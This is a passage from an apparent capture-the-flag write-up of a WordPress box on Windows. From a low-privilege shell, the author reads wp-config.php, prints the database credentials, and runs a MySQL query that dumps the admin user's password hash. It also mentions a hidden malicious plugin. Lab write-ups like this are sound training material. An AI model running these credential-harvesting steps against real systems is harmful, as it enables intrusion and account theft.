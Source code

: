 Also, as you can see - plugin is not visible. The only thing that reveals it is running is a number of visible plugins in comparison to All number on GUI.


![201644566290.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1623251171589/0tDJKU9YA.png)

## Reverse shell (low privilege)

Trying to get database connection details from `wp-config.php`:

```
PS C:\inetpub\wwwroot\wordpress> cat wp-config.php

<?php

// ...

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress124');

/** MySQL database username */
define('DB_USER', 'wordpressuser124');

/** MySQL database password */
define('DB_PASSWORD', 'P_-U9dA6q.B|');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');

// ...

```

Copied for later use:
* Database: `wordpress124`
* Credentials: `wordpressuser124/P_-U9dA6q.B|`

## Database enumeration

By using `mysql` I am looking for the cached credentials and sensitive information that will help me find a flag.

```txt
mysql --user=wordpressuser124 --password='P_-U9dA6q.B|' --database=wordpress124 -e "select * from wp_users;"

ID	user_login	user_pass	user_nicename	user_email	user_url	user_registered	user_activation_key	user_status	display_name
1	admin	$P$Bgz58wVx7mKpwW3AcNv6VNstbMeyQ30	admin	shield@hackthebox.eu		2020-02-04 15:40:47	1622581404:$P$BrWeD9Vdxf2/vtWQsEO7hJAlOAGkMQ0	0	admin
```
